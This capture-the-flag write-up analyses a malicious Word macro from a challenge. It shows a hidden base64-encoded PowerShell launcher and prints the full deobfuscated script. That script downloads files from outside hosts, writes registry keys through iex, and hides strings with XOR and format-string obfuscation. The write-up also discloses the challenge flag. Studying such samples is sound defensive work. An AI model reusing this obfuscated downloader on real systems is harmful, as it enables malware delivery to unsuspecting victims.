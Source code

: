 # **S1mple Obfusc4tion**

```
The flag has 2 parts. Part 2 has been encode and saved somewhere. Can you find it?

Download file: https://drive.google.com/file/d/1ZmWZiTTqL62wjZvhgcZabrt59W-Mq7uQ/view?usp=sharing
Password: wargame
```

Extract the given compressed file with the given password, we will have a .doc file. I must turn off my anti virus program because it kept deleting my file LMAO. 

Open it up and we see a macro. I had done a lot of research about macro in .doc file then I found [this](https://www.decalage.info/vba_tools).

![Macro](https://user-images.githubusercontent.com/89141562/188659787-5c357edf-855a-4b63-a3bb-56165818a946.png)

So we will use a tool call `olevba`. We have something like this.

![](https://user-images.githubusercontent.com/89141562/188659291-a3647f33-102b-437b-b0eb-504bc7f2f318.png)

I found a malicious content in the macro:

```
uxZIlRCaHe = "Powershell.exe -WindowStyle Hidden -nop -ENCOD JABFAGcAUgBJADkAYgBqAGg...cgBdADMANgApACAAfAAgAGkAZQB4AH0AOwANAAoA"
```
There's a lot of it so that I can't show you guys all sorry :'(

Look likes it was powershell commands but was encoded with base64, so I put it to `cyberchef` to decode it and here is what I found. Very interesting:

![](https://user-images.githubusercontent.com/89141562/188659390-27fac218-3d8a-4fed-953b-63a53c04bf40.png)

```powershell
$EgRI9bjh5S = ('New-Tem' + 'p' + 'orar' + 'yFile')|& ( $pshOme[4] + $psHOmE[34] + 'X');
$GLHNe0URoh = (100, 71, 104, 108, 73, 72, 82, 104, 97);
$GF8UYpawBX = ((("{4}{3}{2}{6}{5}{1}{0}"  -f 'llName', 'h5S.Fu', 'R', 'g', 'tP7E', 'j', 'I9b'))   -rePLACe 'tP7', [CHaR]36)|& ((get-VArIABLe '*mDr*').NaME[3, 11, 2] -jOIN'');
$GLHNe0URoh += (87, 119, 103, 98, 50, 89, 103, 100, 71, 104, 108, 73, 71, 90, 115, 89, 87);
$GLHNe0URoh += (99, 103, 79, 105, 74, 102, 97, 72, 86, 122, 100, 71, 119, 122, 88, 51, 73, 122, 89, 87, 120, 102, 97, 71, 70);
$Eg4w85M9Qi = (('trS' + 'Wxrked ' + 'sx hca' + 'd' + 'rd' + ', fx' + 'r' + 'gxt' + ' hx' + 'w tx v' + 'cadcca' + 'dtix' + 'n!' + '!' + '!!tr' + 'S.Re' + 'P' + 'lAc' + 'E(trSxtr' + 'S,' + 'trS0trS).' + 'R' + 'e' + 'PlAcE(t' + 'r' + 'S' + 'ca' + 'dt' + 'rS,tr' + 'Sat' + 'rS' + ')')   -repLaCE 'trS', [CHAr]39) | . ((varIaBle '*mdr*').namE[3, 11, 2] -jOin'');
$GLHNe0URoh += (121, 90, 72, 48, 105);
$sEpb5puTtV = (('{4}{0}{3}{5}{1}{7}{2}{6}' -f 'nVerT]:', 'HNe', 'h', ':toBaSE6', '[System.Co', '4STRINg(jD8GL', ')', '0URo')).rePLACe(([chAR]106 + [chAR]68 + [chAR]56), [strIng][chAR]36) |& ((VArIaBLe '*MDR*').nAME[3, 11, 2] -jOin'');
echo $sEpb5puTtV | .('{2}{1}{0}'  -f 'ile', 'ut-f', 'o') ${GF8UYpawBX};
$azfcfToiBq = ("{1}{4}{8}{7}{2}{5}{6}{9}{3}{0}"  -f 'ion', 'Welc', '_Warga', 'cat', 'om', 'me!', 'S1mple', 'o', 'e_t', '_Obfu');
$cOP2lgqRhb = 'Xgf{jgn{tgz|{c<Pg;}k';
$cOP2lgqRhb.("{1}{2}{0}"  -f 'ay', 'tocha', 'rarr').invoke() | .("{2}{1}{0}{3}"  -f'-', 'ach', 'fore', 'object')   -Process { $rEianMEKgy += [char]([byte][char]$_  -bxor 0xf) };
$C4Lg8xccWH = 'https:][(s)]w][(s)]wwhitehat.com][(s)]ww1zw][(s)]w$https:][(s)]w][(s)]wwargame.com][(s)]wthuchanh'.repLAcE((']' + '[' + ('(s)]' + 'w')), ([array]('/'), ('xw' + 'e'))[0]).sPlIT('$');
$mAMq5ixXLi = 0;
try {
    foreach($JJU1E8IktL  in $C4Lg8xccWH) {
        (New - Object System.Net.WebClient).DownloadFile($JJU1E8IktL, 'C:\Users\Whitehat')
    }

} catch [System.Net.WebException], [System.IO.IOException] {
    ("{9}{3}{7}{0}{10}{8}{2}{5}{11}{6}{4}{1}"  -f 'on', 'ist!!!', ' or Fil', 'nne', 'ex', 'e does ', 't ', 'cti', 'ailed!!!', 'Co', ' F', 'no');
    $mAMq5ixXLi = 1
};
(('New' + '-Item -Path ' + '{0' + '}HK' + 'C' + 'U:{0}' + ' ' + '-' + 'Name ' + '{0}whit' + 'eha' + 't{0}') -F  [char]34)| iex;
if ($mAMq5ixXLi   -gt 0)  {
    (('New' + '-' + 'I' + 'temProperty' + ' -Pat' + 'h I9' + 'KHKCU:1' + 'Lewhitehat' + 'I9' + 'K -Nam' + 'e I9' + 'Kwarga' + 'meI9K -Va' + 'lue Nzvazf' + 'c' + 'fToiBq' + ' -PropertyType I9KStri' + 'ngI9K').RePlACe('I9K', [sTrIng][Char]34).RePlACe(([Char]49 + [Char]76 + [Char]101), [sTrIng][Char]92).RePlACe(([Char]78 + [Char]122 + [Char]118), '$'))| iex
} else {
    PS C:\Users\my_ant_ti3m > ((("{4}{9}{0}{13}{7}{3}{1}{10}{8}{6}{16}{12}{11}{2}{15}{5}{14}"  - f'roperty -P', 'CU:rBQwh', 'o', 'lX1HK', 'New-It', 'e lX1', 'lX1wargamelX1 ', 'h ', ' ', 'emP', 'itehatlX1 -Name', '-Pr', ' ', 'at', 'StringlX1', 'pertyTyp', '-Value 8qarEianMEKgy '))   - rEpLACe ([ChAr]108 + [ChAr]88 + [ChAr]49), [ChAr]34  - rEpLACe([ChAr]114 + [ChAr]66 + [ChAr]81), [ChAr]92   - crepLacE([ChAr]56 + [ChAr]113 + [ChAr]97), [ChAr]36) | iex
};
```
I used Base64 decode, text decode with UTF-16LE and code tidy. So I noticed that `$GLHNe0URoh` was a variable which was added some ASCII to it. Using `dcode`, I had this: `dGhlIHRhaWwgb2YgdGhlIGZsYWcgOiJfaHVzdGwzX3IzYWxfaGFyZH0i`. Then base64 again:

![](https://user-images.githubusercontent.com/89141562/188659529-2151b7d9-e3a2-4dbd-8ccf-03371f2d3068.png)

It was just the tail of the flag, I must find the head in those code. I had tried many variables, but `$rEianMEKgy` gave me this

![](https://user-images.githubusercontent.com/89141562/188659556-2921f00e-e362-4bbd-ab66-4bc1f44746ce.png)

## FLAG: Whitehat{hustl3_h4rd_hustl3_r3al_hard}

